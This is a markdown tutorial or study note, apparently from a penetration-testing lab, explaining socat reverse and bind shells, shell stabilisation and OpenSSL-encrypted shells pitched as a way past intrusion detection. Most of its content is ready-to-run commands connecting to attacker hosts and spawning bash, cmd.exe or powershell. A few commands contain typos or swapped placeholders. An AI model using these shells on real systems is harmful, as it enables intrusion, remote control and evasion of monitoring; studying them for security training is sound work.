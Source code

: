 # Socat

- with socat, there are always two points
- one listening port and a standard input
- socat connects these two together.

## Reverse Shells

- Basic syntax for reverse shell listener: `socat TCP-L:<port> -`
- the resulting shell is unstable, but this will either work on windows or linux.
- On windows it looks like this: `socat TCP:<attacker-host>:<attacker-port> EXEC:powershell.exe,pipes`
- The "pipes" option is used to force powershell (or cmd.exe) to use unix style standard input.
- `this is equivalent command for linux target: `socat TCP:<attacker-host>:<attacker-port> EXEC:"bash -li"`

## Bind Shells
- `socat TCP:<target-host>:<target-ip> -`

## Stablizing the bind shell
- `socat TCP-L:<port> FILE:\`tty\`,raw,echo=0`
- this is equivalent to Cntrl + Z ; `stty raw -echo;fg`
- there is a special command,
  `socat TCP:<attacker-ip>:<attacker-host> EXEC:"bash -li",pty,stderr,setsid,sane,sigint`
- `pty` allocates a pseudo terminal on the target.
- `stderr` ensures that any error messages shown in the shell get displayed
- `sigint` allows us to send any Cntl+C commands through to the sub-process allowing us to kill commands inside the shell
- `setsid` creates a process in the session
- `sane` stablises the terminal and normalizes it.

This is a typical scenario
```
on the attackers machine

socat TCP-L:53 file:`tty`,raw,echo=0

on the right we have a simulation of a compromised target, invoking the socat through a non-interactive netcat shell

sudo rlwarp nc -lnvp 443
socat TCP:<attacker-ip>:53 EXEC:"bash -li",pty,stderr,setsid,sigint,sane

For more verbose settings use -d with socat

```

## Encrypting socat shells

Encrypted shells cannot be spied unless you have the decryption key and the most important thing is you will be able to bypass an IDS (Intrusion Detection System).

First generate a certificate
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

The above command creates a self-signed cert file with 2048 bit RSA key which is self-signed and has a validity period of less than a year.

`cat shell.key shell.crt > shell.pem`

### Reverse shell encryption with SOCAT

Now we can set up our reverse shell listener on the attack box. this sets up an openssl listener with our generated certificates.
`socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 -`

To connect back we use
`socat OPENSSL:<attacker-ip>:<attacker-port>,verify=0 EXEC:/bin/bash`

### Bind Shell encryption with SOCAT

At the target machine

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

At the attackers machine

`socat OPENSSL:<target-ip>:<target-port>,verify=0 -`

The following is the syntax for setting up openssl listener using tty techinque.

`socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0`

And to connect back, we have

`socat openssl:10.10.10.5:53,verify=0 EXEC:”bash -li”,pty,stderr,sigint,setsid,sane`
